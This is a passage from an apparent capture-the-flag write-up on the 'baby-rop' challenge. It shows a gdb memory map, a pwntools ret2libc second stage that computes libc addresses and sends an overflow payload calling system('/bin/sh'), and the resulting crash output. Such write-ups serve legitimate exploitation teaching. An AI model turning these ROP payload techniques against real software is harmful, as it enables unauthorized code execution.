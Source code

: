 0x00007f602c6be000 0x00007f602c6c1000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6c1000 0x00007f602c6c4000 rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6c4000 0x00007f602c6ca000 rw-p	mapped
0x00007f602c6ca000 0x00007f602c6cb000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f602c6cb000 0x00007f602c6cc000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f602c6cc000 0x00007f602c6cd000 rw-p	mapped
0x00007ffc12bf8000 0x00007ffc12c19000 rw-p	[stack]
0x00007ffc12d65000 0x00007ffc12d68000 r--p	[vvar]
0x00007ffc12d68000 0x00007ffc12d6a000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$
{% endhighlight %}

Memory block 0x00404000-0x00405000 is a prefect candidate, so I will use 0x00404500 for RBP. The code for the second stage looks like this:

{% highlight python %}
# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa

libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))

rbp = 0x00404500

payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

io.sendline(payload)
{% endhighlight %}

However, the exploit seems to crash the program:

{% highlight auto %}
$ python exploit_notworking.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts: 0x7f1764d615a0
[*] libc_base: 0x7f1764cda000
[*] system: 0x7f1764d2f410
[*] bin_sh: 0x7f1764e915aa
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
[*] Got EOF while reading in interactive
$ id
[*] Program './pwn_baby_rop' stopped with exit code -11
[*] Got EOF while sending in interactive
Traceback (most recent call last):
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/process.py", line 611, in close
    fd.close()
BrokenPipeError: [Errno 32] Broken pipe
{% endhighlight %}
